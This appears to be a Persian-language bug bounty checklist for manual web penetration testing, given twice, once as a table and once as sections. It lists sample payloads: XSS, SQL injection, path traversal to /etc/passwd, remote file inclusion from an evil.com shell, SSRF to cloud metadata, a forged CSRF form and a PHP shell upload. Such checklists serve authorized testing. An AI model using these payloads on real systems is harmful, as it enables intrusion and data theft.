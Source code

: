 # 🛡️ چک‌لیست دستی تست نفوذ وب (Bug Bounty)

| بخش | تست‌ها و موارد دستی |
|------|----------------------|
| **1. Recon (جمع‌آوری اطلاعات)** | - Subdomain: `assetfinder`, `amass`, `subfinder` <br> - مسیر مخفی: `gau`, `waybackurls`, `ffuf` <br> - فایل‌های حساس: `/.git/`, `/config.php`, `/backup.zip` |
| **2. Authentication & Session** | - Login بدون پسورد <br> - Reset Password → تغییر Token به ایمیل قربانی <br> - بررسی Secure/HttpOnly کوکی <br> - Session Fixation: تغییر SessionID |
| **3. Authorization (IDOR / BOLA)** | - تغییر `id=123` → `id=124` <br> - تست API با تغییر یا حذف JWT Claim <br> - حذف فیلد حساس در درخواست |
| **4. Business Logic Flaws** | - خرید با قیمت منفی/صفر <br> - استفاده چندباره از کوپن <br> - Skip مرحله پرداخت (`/success`) <br> - تغییر نقش کاربر |
| **5. XSS (Cross-Site Scripting)** | - ورودی در فرم‌ها، GET/POST، هدرها <br> - Payload: `"><svg onload=alert(1)>` <br> - تست DOM-XSS: `document.write`, `innerHTML` |
| **6. CSRF (Cross-Site Request Forgery)** | - فرم جعلی با `POST /change-email` <br> - بررسی درخواست بدون CSRF Token |
| **7. File Upload** | - آپلود `shell.php.jpg` <br> - تغییر Content-Type به `image/jpeg` <br> - اجرای فایل در `/uploads/` |
| **8. SQL Injection** | - اضافه `'` یا `--` به پارامتر <br> - Boolean: `id=1 AND 1=1` vs `id=1 AND 1=2` <br> - Union: `id=1 UNION SELECT null,null,null` |
| **9. SSRF (Server Side Request Forgery)** | - تست پارامتر `url` یا `redirect` <br> - دسترسی به: `127.0.0.1`, `169.254.169.254` <br> - تست با Burp Collaborator / interactsh |
| **10. Open Redirect** | - `/login?redirect=https://evil.com` |
| **11. LFI/RFI (File Inclusion)** | - `page=../../../../etc/passwd` <br> - `page=http://evil.com/shell.txt` |
| **12. Race Condition** | - ارسال همزمان چند درخواست (Burp Intruder) <br> - استفاده دوباره از کوپن تخفیف |
| **13. Header Injection / Misconfig** | - تغییر `Host: evil.com` <br> - تست `X-Forwarded-For: 127.0.0.1` <br> - بررسی CSP, HSTS, X-Frame-Options |

---

## ✅ نکات پایانی
- تست‌ها رو مرحله‌ای انجام بده و مستند کن.  
- هر Payload موفق = ثبت کامل Request + Response.  
- حتماً قبل تست قوانین برنامه باگ‌بانتی رو بخون.




======================================================================
# 🛡️ چک‌لیست دستی تست نفوذ وب (Bug Bounty)

## 🔹 1. جمع‌آوری اطلاعات (Recon)
- پیدا کردن Subdomainها
```
  - `assetfinder`, `amass`, `subfinder`, `crt.sh`
```
- پیدا کردن مسیرهای مخفی
```
  - `gau`, `waybackurls`, `ffuf`, `gobuster`
```
- بررسی فایل‌های حساس
```
  - `/.git/`, `/config.php`, `/backup.zip`
```
## 🔹 2. تست Authentication و Session
```
- **Login / Logout / Reset Password**
```
  - تست Login بدون پسورد
  - تست Reset Password → تغییر Token به ایمیل قربانی
```
- **Session Management**
```
  - کوکی Secure/HttpOnly بررسی بشه
  - تست Fixation: تغییر SessionID قبل و بعد از لاگین

## 🔹 3. تست Authorization (IDOR / BOLA)
- تغییر IDها:
  ```
  GET /user/123  → تغییر به 124
  ```
- تست روی API (REST/GraphQL):
  - حذف یا تغییر JWT Claim (`"role": "admin"`)
  - حذف فیلدهای حساس در درخواست و دیدن رفتار

## 🔹 4. Business Logic Flaws
- تست خرید با قیمت منفی یا صفر  
- تست چند بار استفاده از کوپن  
- تست Skip مرحله پرداخت با تغییر Flow (مثلا رفتن مستقیم به /success)  
- تست تغییر نقش کاربر با پارامترها  

## 🔹 5. XSS (Cross-Site Scripting)
- تست ورودی در: فرم‌ها، پارامتر GET/POST، هدرها
- نمونه Payload ساده:
  ```html
  "><svg onload=alert(1)>
  ```
- تست DOM-XSS در فایل‌های JS:
  - سرچ `document.write`, `innerHTML`, `location.hash`

## 🔹 6. CSRF (Cross-Site Request Forgery)
- ساخت فرم جعلی:
  ```html
  <form action="https://target.com/change-email" method="POST">
    <input type="hidden" name="email" value="attacker@test.com">
    <input type="submit">
  </form>
  ```
- بررسی: آیا درخواست بدون CSRF Token هم قبول میشه؟

## 🔹 7. File Upload
- تست آپلود فایل:
```
  - `shell.php.jpg`
```  
  - تغییر Content-Type: `image/jpeg` → ولی فایل PHP باشه  
- تست اجرای فایل در `/uploads/`

## 🔹 8. SQL Injection (دستی)
- اضافه کردن `'` یا `--` به پارامترها
- تست Boolean-based:
  ```
  id=1 AND 1=1
  id=1 AND 1=2
  ```
- تست Union:
  ```
  id=1 UNION SELECT null,null,null
  ```

## 🔹 9. SSRF (Server Side Request Forgery)
- پارامترهای `url`, `path`, `redirect`
  ```
  url=http://127.0.0.1:8080/admin
  url=http://169.254.169.254/latest/meta-data/
  ```
- تست DNS Logging (Burp Collaborator / interactsh)

## 🔹 10. Open Redirect
- تغییر:
  ```
  /login?redirect=https://evil.com
  ```

## 🔹 11. LFI/RFI (File Inclusion)
- تست:
  ```
  page=../../../../etc/passwd
  page=http://evil.com/shell.txt
  ```

## 🔹 12. Race Condition
- ارسال همزمان چند درخواست با Burp Intruder / Turbo Intruder  
- مثال: دوبار استفاده از کوپن تخفیف در یک لحظه  

## 🔹 13. Header Injection / Misconfig
- تست هدرها:
  ```
  Host: evil.com
  X-Forwarded-For: 127.0.0.1
  ```
- بررسی هدرهای امنیتی (CSP, X-Frame-Options, HSTS)

---

## ✅ نکات پایانی
- همه تست‌ها رو **مرحله‌ای** انجام بده و یادداشت کن.  
- خروجی هر Payload موفق → گزارش دقیق (Request + Response).  
- همیشه قبل تست → ببین توی برنامه Bug Bounty اون نوع حمله مجازه یا نه.  

